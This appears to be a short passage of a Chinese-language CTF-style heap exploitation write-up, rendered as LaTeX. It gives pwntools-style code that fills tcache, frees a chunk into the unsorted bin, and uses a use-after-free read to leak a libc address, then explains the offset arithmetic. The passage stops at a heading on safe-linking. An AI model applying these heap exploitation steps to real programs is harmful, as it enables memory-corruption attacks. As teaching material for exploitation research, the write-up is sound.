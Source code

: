 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}S\textquotesingle{}}\NormalTok{, }\BaseNTok{0x80}\NormalTok{)         }\CommentTok{\# slot 0}
\NormalTok{open\_wallet(}\StringTok{b\textquotesingle{}D\textquotesingle{}}\NormalTok{, }\BaseNTok{0x80}\NormalTok{)         }\CommentTok{\# slot 1}
\ControlFlowTok{for}\NormalTok{ i }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{7}\NormalTok{):}
\NormalTok{    open\_wallet(}\StringTok{b\textquotesingle{}W\%d\textquotesingle{}} \OperatorTok{\%}\NormalTok{ i, }\BaseNTok{0x80}\NormalTok{)   }\CommentTok{\# slots 2..8}
\ControlFlowTok{for}\NormalTok{ i }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{2}\NormalTok{, }\DecValTok{9}\NormalTok{):}
\NormalTok{    close\_wallet(i)             }\CommentTok{\# 7 次 free(0x90) → tcache[0x90] 剛好滿（7/7）}
\NormalTok{transfer(}\DecValTok{0}\NormalTok{, }\DecValTok{1}\NormalTok{)                  }\CommentTok{\# free(S ledger)：tcache 滿 → 往下走 → unsorted bin}
\NormalTok{leak }\OperatorTok{=}\NormalTok{ withdraw\_n(}\DecValTok{1}\NormalTok{, }\BaseNTok{0x80}\NormalTok{)      }\CommentTok{\# ✶ UAF 讀}
\NormalTok{unsorted }\OperatorTok{=}\NormalTok{ u64(leak[}\DecValTok{0}\NormalTok{:}\DecValTok{8}\NormalTok{])       }\CommentTok{\# = \&main\_arena.bins[0]}
\NormalTok{libc }\OperatorTok{=}\NormalTok{ unsorted }\OperatorTok{{-}} \BaseNTok{0x203b20}
\end{Highlighting}
\end{Shaded}

\textbf{為什麼會進 unsorted bin？} 0x90 的 chunk 比
\texttt{global\_\allowbreak{}max\_\allowbreak{}fast}(0x80) 大， 所以 tcache 滿了之後不會進
fastbin，而是走 normal 路徑 → 丟進 unsorted bin。

\textbf{換算公式：}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
   leak1[0x00..0x08] = main_arena.bins[0] = libc_base + 0x203ac0 + 0x60
   libc_base = leak - 0x203b20
\end{Verbatim}

\paragraph{8.2 Phase 2a：safe-linking
key}\label{phase-2asafe-linking-key}
\end{document}
